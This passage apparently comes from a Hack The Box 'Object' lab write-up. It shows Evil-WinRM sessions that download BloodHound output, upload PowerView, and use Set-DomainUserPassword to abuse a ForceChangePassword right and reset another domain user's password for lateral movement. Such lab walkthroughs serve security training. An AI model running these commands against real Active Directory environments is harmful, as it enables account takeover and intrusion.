 Once the process is done, we can download the produced ZIP file and analyze its content on our local machine.

```bash
*Evil-WinRM* PS C:\Users\oliver\Documents> download 20230428115712_BloodHound.zip
Info: Downloading 20230428115712_BloodHound.zip to ./20230428115712_BloodHound.zip
                   
Info: Download successful!
```

By looking at the BloodHound output, we can see that the **OLIVER@OBJECT.LOCAL** user can change the password (*ForceChangePassword*) of the **SMITH@OBJECT.LOCAL** user which has *GenericWrite* privileges over **MARIA@OBJECT.LOCAL**.

![image-center](/images/htb/htb_object_bloodhound.png){: .align-center}

Let's start by exploiting the relationship between **OLIVER@OBJECT.LOCAL** and **SMITH@OBJECT.LOCAL**.

## Lateral Movement

To abuse the *ForceChangePassword* privilege, we used a well-known PowerShell tool that aims to gain network situational awareness on Windows domains, [PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1).

Here, we just need to upload it to the remote machine and use the `Set-DomainUserPassword` command on **smith**.

```bash
*Evil-WinRM* PS C:\Users\oliver\Documents> upload /var/www/html/PowerView.ps1
Info: Uploading /var/www/html/PowerView.ps1 to C:\Users\oliver\Documents\PowerView.ps1
                                                             
Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\oliver\Documents> import-module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\oliver\Documents> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\oliver\Documents> Set-DomainUserPassword -Identity smith -AccountPassword $UserPassword
*Evil-WinRM* PS C:\Users\oliver\Documents> exit
```
